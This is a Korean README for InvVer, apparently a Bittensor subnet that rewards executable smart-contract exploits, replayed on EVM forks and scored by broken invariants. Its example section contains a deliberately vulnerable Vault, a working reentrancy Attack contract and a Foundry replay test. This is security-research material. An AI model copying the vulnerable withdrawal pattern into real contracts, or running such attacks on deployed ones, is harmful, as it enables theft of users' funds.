

# InvVer

[English](./README.md)

> **불변식을 깨라. 익스플로잇을 검증하라.**

**InvVer**는 **실행 가능한 PoC 공격**과 **결정론적 fork 재현**으로 EVM 스마트컨트랙트의 알려지지 않은 취약점을 발견하는 Bittensor 서브넷입니다.

마이너는 취약점 이름을 대거나 설득력 있는 리포트를 써서 보상을 받지 않습니다. **실제로 실행되는 공격**을 제출합니다. 밸리데이터는 동일한 EVM 조건에서 같은 공격을 재현하고, 그 결과로 발생한 불변식 위반과 상태 변화량을 채점합니다.

```text
알려지지 않은 취약점
→ 실행 가능한 PoC
→ 결정론적 재현
→ 불변식 위반
→ 보상
```

이름은 **Invariant**(불변식)와 **Verification**(검증)의 합성입니다.

---

## 목표

**취약점이 미리 알려져 있지 않은 컨트랙트를 감사하는 능력에 시장을 만든다.**

기존 감사 벤치마크는 대개 이미 확인된 발견 목록에서 출발합니다. 즉 다른 누군가를 채점하기 전에, 먼저 누군가가 답을 발견하고 검증해 놓아야 합니다.

InvVer는 채점 질문 자체를 바꿉니다.

```text
"마이너가 정답 집합 안의 취약점을 찾아냈는가?"
                    ↓
"마이너가 불변식을 깨는 실행을 만들어냈는가?"
```

불변식이란 항상 참으로 유지되어야 하는 안전 조건입니다. 예를 들면:

- 프로토콜 자산이 부채 이상으로 유지된다;
- 총 발행량이 권한 없이 증가하지 않는다;
- 권한 없는 계정이 다른 사용자의 자산을 옮길 수 없다;
- 출금이 프로토콜을 지급불능 상태로 만들 수 없다;
- 거버넌스 상태가 필요한 권한과 지연 없이 바뀔 수 없다.

InvVer는 가능한 모든 취약점의 완전한 목록을 요구하지 않습니다. 이전에 알려지지 않았던 발견이라도, 그 PoC가 실행되어 선언된 안전 조건을 깨는 순간 검증 가능해집니다.

---

## 기존 감사 벤치마크가 멈추는 지점

평가가 사전에 존재하는 정답 집합에 의존하면 세 가지 문제가 함께 나타납니다:

1. **암기가 실력보다 싸질 수 있다.**
2. **진짜 새로운 취약점이 정답 집합 밖에 있을 수 있다.**
3. **익스플로잇 가능성을 증명하지 않고도 리포트가 점수를 받을 수 있다.**

InvVer는 마이너의 제출물을 주장이나 도구가 아니라 **실행 가능한 증명**으로 바꿉니다.

| 설계 패턴 | 마이너가 제출하는 것 | 채점 대상 |
|---|---|---|
| BitAudit / ReinforcedAI 계열 감사 | `{"type": "reentrancy", "line": 12}` | 알려진 또는 심어둔 라벨과의 일치 |
| Bitsec 계열 에이전트 벤치마킹 | 취약점을 찾는 코드 | 에이전트 출력과 확인된 발견의 비교 |
| **InvVer** | **실행 가능한 스마트컨트랙트 공격** | **재현된 불변식 위반과 상태 변화량** |

```text
주장  →  도구  →  증명
```

결정적 차이는 단순히 "코드가 돈다"가 아닙니다. **스마트컨트랙트 익스플로잇 그 자체가 재현되고, 그것이 채점 근거로 쓰입니다.**

---

## 설계 계보

아래 표는 InvVer에 영향을 준 프로토콜 패턴을 정리한 것입니다. 연구한 설계와 과거 버전을 서술한 것이며, 특정 netuid의 현재 운영 상태를 말하는 것이 아닙니다.

| 설계 | 마이너 출력 | 채점 오라클 | 기여와 남은 간극 |
|---|---|---|---|
| **BitAudit** | 취약점 JSON | 공개 데이터셋 라벨 | 스마트컨트랙트 감사를 서브넷 과제로 도입했지만, 고정된 공개 정답 집합이 암기를 경제적으로 만들었다 |
| **ReinforcedAI** | 취약점 JSON | 생성기가 심은 라벨 | 정적 문제 목록을 생성 컨트랙트로 대체했지만, 생성기의 버그 어휘가 새로운 정답 키가 되었다 |
| **Bitsec** | 재사용 가능한 감사 에이전트 | 이전에 확인된 발견 | 제출물을 답에서 도구로 옮겼지만, 채점에는 여전히 알려진 발견이 필요했고 익스플로잇 자체를 오라클로 쓰지는 않았다 |
| **Trishool** | 적대적 프롬프트 또는 공격 스캐폴드 | 가드된 에이전트 실행을 판정자가 해석 | 공격 생산을 시장화했지만, 성공 경계가 여전히 의미론적 판정자와 루브릭이었다 |
| **Yanez / MIID** | 적대적 신원 데이터 | 즉시 품질 점수 + 장기 평판 | 탐색과 평판 관점을 도입했지만, 즉시 채점과 하류 보안 가치가 분리된 신호로 남았다 |
| **InvVer** | **실행 가능한 PoC** | **EVM fork 재현 + 불변식·영향도 검사** | **익스플로잇 실행 자체를, 독립 밸리데이터들이 사용하는 근거로 만든다** |

두 가지 설계 흐름이 보입니다:

```text
마이너 제출물:  답  →  도구  →  공격  →  실행 가능한 증명
채점 오라클:    라벨  →  알려진 발견  →  판정자/평판  →  EVM 상태 전이
```

InvVer는 두 계보에서 가장 강한 교훈을 취합니다:

> **어려운 탐색은 시장화하되, 판정은 실행으로부터 재현 가능하게 만든다.**

---

## 반복되는 세 가지 간극

### 간극 A — 채점 전에 답이 존재해야 한다

고정 라벨 기반 벤치마크에서 채점은 누군가 발견을 확인한 뒤에야 시작됩니다. 답의 출처를 공개 데이터든, 생성기든, 사람의 감사든 바꾸어도 그 의존성은 사라지지 않습니다.

### 간극 B — 익스플로잇 자체가 채점 근거가 아니다

Bitsec은 마이너의 감사 에이전트를 실행합니다. 정적 정답에서 한 걸음 나아간 중요한 진전입니다. 그러나 **감사자를 실행하는 것**과 **그 감사자가 찾았다고 주장하는 익스플로잇을 재현하는 것**은 다른 작업입니다.

InvVer는 익스플로잇 자체를 평가 대상으로 만듭니다.

### 간극 C — 최종 판정이 독립적으로 재현 불가능할 수 있다

최종 점수가 공유 판정자, 비공개 랭킹 서비스, 불투명한 평판 계산에 의존하면, 여러 밸리데이터가 여전히 같은 기저 오라클에 의존하게 됩니다.

InvVer는 모든 밸리데이터에게 동일한 fork, PoC, 불변식, 실행 조건을 주어 각자 독립적으로 결과를 계산하게 합니다.

### 하나의 실행이 셋을 모두 해소한다

```text
익스플로잇을 재현한다
   ├─ 완전한 취약점 정답 집합이 필요 없다
   ├─ 익스플로잇 가능성이 증명된다
   └─ 판정이 독립적으로 재현 가능하다
```

> **기존 시스템들은 답을 어떻게 얻을지를 바꿨습니다. InvVer는 무엇이 답으로 인정되는지를 바꿉니다 — 재현된, 불변식을 깨는 실행.**

---

## InvVer의 동작



### 마이너

마이너는 비싸고 창의적인 작업을 합니다:

- 컨트랙트 분석;
- 공격 시퀀스 설계;
- 실행 가능한 PoC 작성;
- 고정된 공격자 권한과 실행 조건 충족.

### 밸리데이터

밸리데이터는 더 싼 검증 작업을 합니다:

1. PoC를 실행한다;
2. 불변식이 깨지는지 확인한다;
3. 결과 상태 변화량을 측정한다;
4. 결과를 가중치로 변환한다.

밸리데이터는 취약점을 다시 발견할 필요도, 자연어 설명이 설득력 있는지 판단할 필요도 없습니다.

### Subtensor

Subtensor는 익스플로잇을 실행하지 않습니다. 밸리데이터 가중치를 기록하고, 합의를 돌리고, 보상을 정산합니다.

```text
InvVer     → 보안 작업을 정의하고 평가한다
Subtensor  → 가중치를 집계하고 인센티브를 정산한다
```

> **익스플로잇을 찾는 것은 창의적이고 비싸다. 재현하는 것은 결정론적이고 상대적으로 싸다.**

이 **탐색–검증 비대칭**이 서브넷의 토대입니다.

---

## fork 재현이란

블록체인 fork는 특정 블록 시점의 체인 상태를 로컬로 복사한 것입니다. 그 순간 존재하던 컨트랙트, 잔액, 스토리지, 의존성을 담고 있지만, fork에서 수행한 실행은 실제 네트워크를 바꾸지 않습니다.

InvVer는 실행 입력을 고정합니다:

- 체인과 블록 번호;
- 컨트랙트 주소와 상태;
- EVM 실행 조건;
- 불변식 검사;
- 공격자 권한;
- PoC와 트랜잭션 시퀀스.

```text
고정된 입력
→ 동일한 EVM 계산
→ 동일한 사후 상태
→ 동일한 불변식 판정과 영향도
```

따라서 밸리데이터 A, B, C는 같은 공격을 각자 재현하고 다음을 비교할 수 있습니다:

- PoC가 완료되었는지;
- 불변식이 거짓이 되었는지;
- 컨트랙트 잔액과 스토리지가 어떻게 변했는지;
- 최종 상태와 측정된 영향도.

fork 재현은 실제 체인을 공격하지 않고도 안전하고 재현 가능한 실행 환경을 제공합니다.

---

## 왜 감사 가능한가


각 밸리데이터가 같은 실행에서 결과를 도출하므로, InvVer는 다음에 대한 의존을 줄입니다:

- **완전한 정답 목록** — 판정은 선언된 불변식이 깨졌는가입니다;
- **라운드 시점의 판정 모델** — EVM 상태 전이를 측정하지, 수사적으로 해석하지 않습니다;
- **중앙 랭킹 플랫폼** — 밸리데이터가 원본 결과를 독립적으로 계산할 수 있습니다.

그렇다고 사람의 판단이 전부 사라지는 것은 아닙니다. 불변식이 무엇을 뜻하는지, 공격자가 어떤 권한을 갖는지, 어떤 실행 조건이 유효한지는 여전히 프로토콜 작성자가 정합니다. InvVer는 그 의미론적 판단을 **사후 해석에서 경쟁 전에 고정된 규칙으로** 옮깁니다.

> **무슨 일이 일어났는지는 EVM이 정한다. 그것이 인정되는지는 사전 선언된 규칙이 정한다.**

---

## 최소 예제: 취약한 Vault

의도적으로 단순한 예제입니다. Vault에 이미 다른 사용자들이 예치한 자금이 있다고 가정합니다.

### 취약한 컨트랙트

```solidity
contract Vault {
    mapping(address => uint256) public balance;

    function deposit() external payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balance[msg.sender];

        // 기록된 잔액을 지우기 전에 Ether를 보낸다.
        (bool ok, ) = msg.sender.call{value: amount}("");
        require(ok);

        balance[msg.sender] = 0;
    }
}
```

기록된 잔액을 지우기 전에 Ether를 보냅니다. 수신 컨트랙트는 이전 잔액이 아직 보이는 동안 `withdraw()`를 다시 호출할 수 있습니다.

### 불변식

```solidity
// Vault는 기록된 모든 잔액을 감당할 만큼의 Ether를 항상 보유해야 한다.
assert(address(vault).balance >= sumRecordedBalances());
```

불변식은 취약점 유형을 지목하지 않습니다. **절대 깨져서는 안 되는 안전 조건**을 정의합니다.

### 마이너가 제출하는 것

```solidity
contract Attack {
    Vault public immutable vault;
    uint256 private calls;

    constructor(Vault _vault) {
        vault = _vault;
    }

    function run() external payable {
        require(msg.value == 1 ether);

        vault.deposit{value: 1 ether}();
        vault.withdraw();
    }

    receive() external payable {
        if (calls++ < 5) {
            vault.withdraw();
        }
    }
}
```

공격자는 `1 ETH`를 예치하고, Vault가 기록된 잔액을 지우기 전에 6번의 출금을 유발합니다.

```text
1 ETH 예치
6 ETH 출금
5 ETH 순 프로토콜 손실
```

### 밸리데이터가 하는 일

```solidity
function testExploit() public {
    vm.createSelectFork(RPC_URL, FORK_BLOCK);

    Vault vault = Vault(VAULT_ADDRESS);
    uint256 beforeBalance = address(vault).balance;

    Attack attack = new Attack(vault);
    attack.run{value: 1 ether}();

    uint256 afterBalance = address(vault).balance;
    uint256 recordedBalances = sumRecordedBalances(vault);

    // 1. PoC가 실행되었다.
    // 2. 불변식이 이제 거짓이다.
    assertLt(afterBalance, recordedBalances);

    // 3. 이 예제에서 순 Vault 손실이 영향도 값이다.
    uint256 netLoss = beforeBalance - afterBalance;
}
```

밸리데이터는 리포트가 "재진입처럼 들리는지" 판단하지 않습니다. 실행을 관찰합니다.

```text
1. PoC가 실행되는가?        → 아니오: 0점
2. 불변식이 깨지는가?       → 아니오: 0점
3. 상태 변화량이 얼마인가?  → 유효한 PoC들의 순위
```

이 Vault에서는 순 자산 손실이 영향도입니다. 다른 컨트랙트에서는 무단 발행, 지급불능, 자금 동결, 권한 상승, 거버넌스 탈취를 측정할 수 있습니다.

---

## 세 간극, 하나의 실행

| 반복되는 간극 | InvVer의 대응 |
|---|---|
| 채점에 완전한 취약점 목록이 미리 필요하다 | **불변식 위반이 곧 판정이다** |
| 익스플로잇 가능성 증명 없이 발견이 점수를 받는다 | **PoC 자체가 fork에서 실행된다** |
| 최종 결과가 중앙 해석자에 의존한다 | **각 밸리데이터가 원본 결과를 독립 도출한다** |

> **취약점 라벨을 아는 것으로는 부족하다. 보상을 받으려면 마이너는 그 실패를 일으키는 실행을 만들어내야 한다.**

---

## 왜 Bittensor인가

InvVer는 열린 탐색과 결정론적 검증을 분리합니다.

```text
마이너      공격 발견을 두고 경쟁한다
밸리데이터  공격을 독립적으로 재현한다
Subtensor   가중치에 합의하고 보상을 분배한다
```

이 구조가 유용한 이유:

- 취약점 발견은 다양한 독립 전략에서 이득을 본다;
- 마이너는 어떤 모델, 퍼저, 심볼릭 실행기, 에이전트, 사람 기법이든 쓸 수 있다;
- 밸리데이터가 마이너보다 나은 감사자일 필요가 없다;
- 비싼 창의적 탐색은 한 번 일어나고, 검증은 싸게 반복된다;
- 알려지지 않은 발견도 그 실행이 재현되는 즉시 보상 대상이 된다.

벤치마크가 곧 제품을 정의합니다:

> **보상을 받으려면, 마이너는 시장이 원하는 바로 그것 — 실행 가능한 익스플로잇 증명 — 을 만들어야 한다.**

---

## 불변식은 어디서 오는가

경쟁 전에 불변식을 고정하는 것이 판정을 재현 가능하게 만듭니다. 동시에 불변식 공급이 희소 자원이 되므로, 누가 쓰는지를 분명히 해둘 가치가 있습니다.

**표준 클래스** — 재진입, 자금 흐름 상한, 접근 제어, 가스 상한 — 는 소스에서 생성합니다. 저희가 재현한 Trace2Inv(ISSTA 2024)에서 **이 계층만으로 실제 역사적 익스플로잇 27건 중 23건이 차단**되었습니다. 자동화 가능하며, [`generator/`](generator)가 트랜잭션 히스토리가 전혀 없는 컨트랙트에 대해 이를 구현합니다.

**프로토콜 고유 경제 불변식**은 감사자가 씁니다. 의도적으로 자동화하지 않습니다. 감사 사업이 이미 생산하는 것이며, 감사 사업 없이는 경쟁 서브넷이 부트스트랩할 수 없는 부분입니다.

첫 번째 계층만 있는 서브넷은 더 빠른 정적 분석기입니다. 둘 다 있는 서브넷은 **실제로 큰 손실을 일으키는 실패**에 대한 시장입니다.

---

## 현재 상태

InvVer는 동작하는 핵심을 가진 초기 단계 설계입니다. 둘 사이의 경계를 흐리지 않고 드러냅니다.

| 구성요소 | 상태 |
|---|---|
| 채점 규칙 — 불변식 위반, 영향도 랭킹, 신규성, 최소성 | **구현됨**, 테스트 25개 통과, 의존성 없음 — [`subnet/`](subnet) |
| 트랜잭션 히스토리 없는 컨트랙트의 불변식 생성 | **구현·실측** — [`generator/`](generator) |
| Trace2Inv 재현 | **직접 재현** — 23/27 차단 @ FP 3.99%, 20/27 @ 0.28%, 저자 Expected 파일과 일치 |
| PoC / 불변식 하네스 | 작성됨, **미실행** — 빌드 환경에 Foundry 없음 |
| LLM 불변식 생성 | 구현됨, **미실행** — 유료 엔드포인트 미연결 |
| 실제 체인 상태 fork 재현 | **설계됨, 미구현.** 현재 하네스는 로컬 배포 |
| 마이너·밸리데이터 뉴런 | **스켈레톤.** 미구현 함수는 그럴듯한 값 대신 예외를 던짐 |
| 테스트넷 서브넷 | **미착수** |

이 저장소는 저희가 측정하지 않은 숫자를 보고하지 않습니다. 근거와 출처: [`docs/evidence.md`](docs/evidence.md)

---

## 저장소 구성

```
subnet/      Python — 채점 규칙, 마이너·밸리데이터 스켈레톤, 네트워크 모니터링
generator/   Node.js — 소스 기반 불변식 생성 + 검증 하네스
web/         파이프라인 설명 정적 페이지 (로컬 실행, KO/EN)
docs/        아키텍처와 근거
```

둘 다 API 키, 지갑, 네트워크 없이 실행됩니다:

```bash
cd subnet    && python -m unittest discover tests -v   # 채점 규칙
cd generator && npm install && npm run step1           # 불변식 검색
```

이 README의 예제는 명료함을 위해 고른 최소 Vault입니다. 저장소에 실제로 연결된 컨트랙트는 [DeFiVulnLabs / `SimpleBank`](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ERC777-reentrancy.sol) — 계정당 상한 1,000을 1,900으로 우회하는 ERC777 재진입입니다. 형태는 같고, 출처는 실제입니다.

---

## 정확한 주장 범위

InvVer는 코드를 실행하는 유일한 시스템이라고 주장하지 않습니다.

- Bitsec은 감사 에이전트를 실행합니다.
- Trishool은 가드된 에이전트에 대해 적대적 프롬프트를 실행합니다.
- InvVer는 **스마트컨트랙트 익스플로잇 자체**를 실행하고, 그 결과 EVM 상태 전이를 채점 근거로 씁니다.

또한 실행만으로 프로토콜의 의도가 정의된다고 주장하지도 않습니다. 불변식, 공격자 권한, 실행 조건은 평가 전에 고정됩니다. 그 규칙이 고정된 뒤에는, 밸리데이터가 리포트의 사후 해석이 아니라 재현된 실행으로부터 라운드 시점 판정을 계산합니다.

---

## 핵심 원칙

1. **취약점 정답 목록을 전제하지 않는다.**
2. **실행 가능한 PoC 없이는 양의 점수가 없다.**
3. **스마트컨트랙트 익스플로잇 자체를 재현한다.**
4. **불변식과 공격자 조건은 평가 전에 고정된다.**
5. **동일한 fork와 트랜잭션 시퀀스는 동일한 실행 결과를 낸다.**
6. **밸리데이터는 원본 결과를 독립적으로 계산한다.**
7. **영향도는 관측 가능한 상태 변화로 측정한다.**
8. **실제 배포 컨트랙트는 명시적 승인과 책임 있는 공개 절차로만 다룬다.**

---

## 프로젝트

InvVer는 스마트컨트랙트 보안 감사 회사 **Anam145**가 한성대학교 [지능형컴퓨팅랩](https://sites.google.com/view/iclab-hansung)과 함께 개발합니다.

**저장소:** `invver-subnet`
**라이선스:** MIT — [LICENSE](LICENSE) 참조. 인용된 외부 자료는 각자의 라이선스를 따릅니다.
